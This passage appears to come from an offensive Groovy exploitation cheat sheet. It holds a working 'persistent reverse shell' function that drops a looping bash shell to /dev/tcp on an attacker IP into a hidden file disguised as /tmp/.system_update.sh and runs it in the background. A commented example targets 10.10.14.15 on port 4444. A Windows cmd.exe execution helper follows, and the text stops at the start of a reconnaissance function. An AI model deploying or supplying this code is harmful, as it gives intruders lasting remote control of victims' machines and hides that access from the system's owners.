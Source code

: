 #### Advanced Persistent Shell
```groovy
// Persistent reverse shell with reconnection capability
def persistentReverseShell(String attackerIP, int port, int reconnectInterval = 60) {
    def shellScript = """#!/bin/bash
while true; do
    (bash -i >& /dev/tcp/$attackerIP/$port 0>&1) 2>/dev/null
    sleep $reconnectInterval
done &
"""
    
    try {
        // Write persistent shell script
        def scriptFile = new File("/tmp/.system_update.sh")
        scriptFile.text = shellScript
        
        // Make executable
        "chmod +x /tmp/.system_update.sh".execute().waitFor()
        
        // Execute persistent shell
        "/tmp/.system_update.sh".execute()
        
        println "[+] Persistent reverse shell deployed to $attackerIP:$port"
        println "[+] Reconnection interval: $reconnectInterval seconds"
        println "[+] Script location: /tmp/.system_update.sh"
        
    } catch (Exception e) {
        println "Persistent shell deployment failed: ${e.getMessage()}"
    }
}

// persistentReverseShell("10.10.14.15", 4444, 60)
```

### Windows System Exploitation

#### Windows Command Execution
```groovy
// Windows-specific command execution
def windowsCommand(String command) {
    try {
        def cmd = ["cmd.exe", "/c", command]
        def proc = new ProcessBuilder(cmd).start()
        
        def stdout = proc.inputStream.text
        def stderr = proc.errorStream.text
        
        proc.waitFor()
        
        println "Command: $command"
        println "Exit Code: ${proc.exitValue()}"
        println "Output:\n$stdout"
        if (stderr) {
            println "Errors:\n$stderr"
        }
        println "=" * 50
        
    } catch (Exception e) {
        println "Error executing Windows command: ${e.getMessage()}"
    }
}

// Windows system reconnaissance
def windowsRecon() {
```